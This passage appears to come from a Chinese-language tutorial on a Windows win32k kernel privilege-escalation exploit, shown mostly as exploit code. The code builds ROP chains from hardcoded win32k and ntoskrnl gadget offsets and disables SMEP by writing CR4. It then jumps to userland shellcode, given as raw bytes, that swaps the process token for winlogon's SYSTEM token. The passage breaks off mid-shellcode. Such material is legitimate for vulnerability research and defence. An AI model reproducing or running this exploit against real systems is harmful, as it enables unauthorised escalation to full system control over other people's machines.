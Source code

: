 ```
10  // Resume execution. Restore original stack pointer.                                                                                                    |
11       *(ULONGLONG*)(PAYLOAD_BASE + 0x5048) = win32k_base_addr + 0x7018e;   // mov rax, r11 # ret (register holding a value close to original stack pointer) <-
12       *(ULONGLONG*)(PAYLOAD_BASE + 0x5050) = win32k_base_addr + 0x98156;   // pop rcx # ret
13       *(ULONGLONG*)(PAYLOAD_BASE + 0x5058) = 0x8;                          // pop into rcx
14       *(ULONGLONG*)(PAYLOAD_BASE + 0x5060) = win32k_base_addr + 0xee38f;   // add rax, rcx # ret (adjust the stack pointer)
15       *(ULONGLONG*)(PAYLOAD_BASE + 0x5068) = win32k_base_addr + 0x1f8c1;   // push rax # sub eax, 8b480020h # pop rsp # and al, 8 # mov rdi, qword ptr [rsp+10] # mov eax, edx # ret

```

第三步，根据`ntoskrnl!ExAllocatePoolWithTag`的地址硬编码计算出`ntoskrnl.exe`的基址

```
1   ExAllocatePoolWithTag_offset = 0x2a3a50;
2       nt_base_addr = *(ULONGLONG *)(PAYLOAD_BASE + 0x100) - ExAllocatePoolWithTag_offset;

```

第四步，找到ntoskrnl的基址，是为了利用其中操作cr4 SMEP位的代码，关闭SMEP，所以这步就是构建ROP链，关闭SMEP，这里的rop链是通过`DestroyWindow`触发的

```
01  *(ULONGLONG*)(PAYLOAD_BASE + 0x5000) = win32k_base_addr + 0x189a3a;  // xchg eax, esp # sbb al, 0 # mov eax, ebx # add rsp, 0x20 # pop rbx # ret
02      *(ULONGLONG *)(PAYLOAD_BASE + 0x5008) = 0x41414141;                   // filler
03      *(ULONGLONG *)(PAYLOAD_BASE + 0x5010) = 0x41414141;                   // filler
04      *(ULONGLONG *)(PAYLOAD_BASE + 0x5018) = 0x41414141;                   // filler
05      *(ULONGLONG *)(PAYLOAD_BASE + 0x5020) = 0x41414141;                   // filler
06      *(ULONGLONG*)(PAYLOAD_BASE + 0x5028) = win32k_base_addr + 0x19fab;   // pop rax # ret
07      *(ULONGLONG*)(PAYLOAD_BASE + 0x5030) = 0x406f8;                      // pop into rax, cr4 value
08      *(ULONGLONG*)(PAYLOAD_BASE + 0x5038) = nt_base_addr + 0x38a3cc;      // mov cr4, rax # add rsp, 0x28 # ret  (SMEP disabling gadget)
09      *(ULONGLONG *)(PAYLOAD_BASE + 0x5040) = 0x41414141;                   // filler
10      *(ULONGLONG *)(PAYLOAD_BASE + 0x5048) = 0x41414141;                   // filler
11      *(ULONGLONG *)(PAYLOAD_BASE + 0x5050) = 0x41414141;                   // filler
12      *(ULONGLONG *)(PAYLOAD_BASE + 0x5058) = 0x41414141;                   // filler
13      *(ULONGLONG *)(PAYLOAD_BASE + 0x5060) = 0x41414141;                   // filler

1   第五步，这里SMEP已经关闭，直接跳转到用户模式的ShellCode，并且真的去删除CHwndTargetProp对象
1   *(ULONGLONG*)(PAYLOAD_BASE + 0x5068) = PAYLOAD_BASE;                 // return to userland and win!
2   *(ULONGLONG*)(PAYLOAD_BASE + 0x5070) = win32k_base_addr + 0x165010;  // CHwndTargetProp::Delete(void)

```

第六步，最后执行用户模式ShellCode，这里就简单了，攻击代码中的ShellCode是一个简单的替换本进程token为winlogon的System Token的代码：

```
01  char sc[] = {
02      '\x4D', '\x8B', '\xBB', '\x68', '\x01', '\x00', '\x00',                                  // mov r15, [r11+0x168], save return address of kernel stack
03      '\x41', '\x51',                                                                          // push r9 save regs
04      '\x41', '\x52',                                                                          // push r10
05      '\x65', '\x4C', '\x8B', '\x0C', '\x25', '\x88', '\x01', '\x00', '\x00',                  // mov r9, gs:[0x188], get _ETHREAD from KPCR (PRCB @ 0x180 from KPCR, _ETHREAD @ 0x8 from PRCB)
06      '\x4D', '\x8B', '\x89', '\xB8', '\x00', '\x00', '\x00',                                  // mov r9, [r9+0xb8], get _EPROCESS from _ETHREAD
07      '\x4D', '\x89', '\xCA',                                                                  // mov r10, r9 save current eprocess
08      '\x4D', '\x8B', '\x89', '\x40', '\x02', '\x00', '\x00',                                  // mov r9, [r9+0x240] $a, get blink
```